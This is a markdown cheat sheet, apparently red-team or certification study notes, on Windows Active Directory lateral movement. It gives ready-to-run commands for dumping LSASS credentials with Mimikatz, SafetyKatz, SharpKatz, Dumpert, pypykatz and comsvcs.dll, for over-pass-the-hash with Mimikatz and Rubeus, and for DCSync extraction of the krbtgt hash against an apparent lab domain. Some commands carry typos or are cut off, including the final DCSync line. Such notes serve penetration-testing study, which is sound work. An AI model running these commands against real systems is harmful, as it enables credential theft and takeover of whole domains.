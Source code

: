 # Lateral Movement - Mimikatz / PtH / DCSync

- [Lateral Movement - Mimikatz / PtH / DCSync](#lateral-movement---mimikatz--pth--dcsync)
  - [Mimikatz](#mimikatz)
  - [Extracting credential from LSASS](#extracting-credential-from-lsass)
  - [Over Pass-the-hash](#over-pass-the-hash)
  - [DCSync](#dcsync)

---

## Mimikatz 

Mimikatz can be used to dump credentials, tickets, and many more interesting attacks.

`Invoke-Mimikatz` is a PowerShell version of Mimikatz. Using the code from **ReflectivePEInjection**, mimikatz is loaded reflectively into the memory, and all functions of mimikatz could be used from this script.

Note both `Mimikatz.exe` and `Invoke-Mimikatz.ps1` have to be run in **Admin Privilege** for dumping credentials from local machine. Many attacks need specific privileges which are covered while discussing that attack.

Note:
- http://github.com/gentilkiwi/mimikatz
- http://adsecurity.org/?p=2207

<br/>

---

## Extracting credential from LSASS

**Dump credential on a local machine using Mimikatz**

```
Invoke-Mimikatz -Command '"sekurlsa::ekeys"'
```

<br/>

**SafetyKatz**

- Minidump of lsass and PELoader to run Mimikatz

```
SafetyKatz.exe "sekurlsa::ekeys"
```

<br/>

**Dump credentials using SharpKatz**

- C# port of some of Mimikatz functionality

```
SharpKatz.exe --Command eKeys
```

<br/>

**Dump credentials using Dumpert**

- Direct system calls and API unhooking

```
rundll32.exe C:\Dumpert\Outflack-Dumpert.dll,DUMP
```

<br/>

Note:
- https://github.com/samratashok/nishang/blob/master/Gather/Invoke-Mimikatz.ps1
- https://github.com/b4rtik/SharpKatz
- https://github.com/outflanknl/Dumpert
- https://github.com/Flangvik/BetterSafetyKatz
- https://github.com/GhostPack/SafetyKatz

<br/>

**Using pypykatz**

- Mimikatz functionality in Python

```
pypykatz.exe live lsa
```

<br/>

**Using comsvcs.dll**

```
tasklist /FI "IMAGENAME eq lsass.exe"
```

```
rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump <lsass PID> C:\Users\Public\lsass.dump full
```

<br/>

Also:

- Linux attacking AD - use `impacket` / `Physmem2profit`

<br/>

Note:
- https://github.com/skelsec/pypykatz
- https://github.com/Hackndo/lsassy
- https://github.com/SecureAuthCorp/impacket/
- https://github.com/FSecureLABS/physmem2profit

<br/>

---

## Over Pass-the-hash

**Over Pass-the-Hash (OPTH)** generate tokens from hashes or keys. To perform, you need a elevated prompt (admin privs):

```
Invoke-Mimikatz -Command '"sekurlsa::pth /user:administrator /domain:us.techcorp.local /aes256:<aes256key> /run:powershell.exe
```

```
SafetyKatz.exe "sekurlsa::pth /user:administrator /domain:us.techcorp.local /aes256:<aes256key> /run:cmd.exe" "exit"
```

Note:
The above commands starts a PS / CMD session with a **logon type 9** (same as `runas /netonly`).
More about logon event:
- https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc787567(v=ws.10)

<br/>

The command below doesn't need elevation:

```
Rubeus.exe asktgt /user:administrator /rc4:<ntlm> /ptt
```

<br/>

The command below needs elevation:

```
Rebeus.exe asktgt /user:administrator /aes256:<aes256key> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

- https://github.com/GhostPack/Rubeus/

---

## DCSync

To extract credentials from the DC without code execution on the DC, we can use **DCSync**. Note by default, **Domain Privilege** are required to run DCSync.

To use the DCSync feature for getting krbtgt hash execute the below command with Domain Admin privileges for the `us` domain:

- Mimikatzs:

```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:us\krbtgt"'
```

- SafetyKatz

```
SafetyKatz.exe "lsadump::dcsync /user:us\krbtgt" "trust.
```

<br/>

----